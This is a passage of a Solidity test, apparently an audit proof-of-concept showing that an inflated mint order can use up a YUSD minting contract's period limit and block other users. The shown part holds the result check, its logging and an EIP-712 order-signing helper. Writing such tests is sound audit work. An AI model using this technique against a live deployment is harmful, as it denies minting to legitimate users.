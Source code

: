 ```solidity
            signature2
        ) {
            // Mint succeeded
            mintFailed = false;
        } catch {
            // Mint failed
            mintFailed = true;
        }
        vm.stopPrank();

        if (mintFailed) {
            console.log(
                "VULNERABILITY FOUND: User2 cannot mint even though User1 only received a fraction of the limit"
            );
            console.log("User1 inflated amount:", INFLATED_YUSD_AMOUNT / 1e18, "YUSD");
            console.log("User1 actual received:", actualMinted / 1e18, "YUSD");
            console.log("User2 requested amount:", YUSD_AMOUNT / 1e18, "YUSD");
            console.log("Period limit:", MAX_PERIOD_AMOUNT / 1e18, "YUSD");
            console.log("Period limit artificially consumed!");
        } else {
            console.log("No vulnerability detected: User2 can still mint");
            console.log("User1 inflated amount:", INFLATED_YUSD_AMOUNT / 1e18, "YUSD");
            console.log("User1 actual received:", actualMinted / 1e18, "YUSD");

            // Check user2's balance change
            uint256 user2YUSDBalance = yusd.balanceOf(user2);
            console.log("User2 received:", user2YUSDBalance / 1e18, "YUSD");
            console.log("Total issued:", (actualMinted + user2YUSDBalance) / 1e18, "YUSD");
        }
    }

    // Helper function to sign a mint order
    function signMintOrder(
        OrderLib.OrderType orderType,
        address userWallet,
        address collateralAsset,
        uint256 collateralAmount,
        uint256 yusdAmount,
        uint256 slippageAdjustedAmount,
        uint256 expiry,
        uint256 nonce
    ) internal view returns (bytes memory signature) {
        bytes memory additionalData = "";
        bytes32 domainSeparator = minting.getDomainSeparator();

        // Calculate order hash directly
        bytes32 orderHash = keccak256(
            abi.encode(
                keccak256(
                    "Order(uint8 orderType,address userWallet,address collateralAsset,uint256 collateralAmount,uint256 yusdAmount,uint256 slippageAdjustedAmount,uint256 expiry,uint256 nonce,bytes additionalData)"
                ),
                uint8(orderType),
                userWallet,
                collateralAsset,
                collateralAmount,
                yusdAmount,
                slippageAdjustedAmount,
                expiry,
                nonce,
                keccak256(additionalData)
```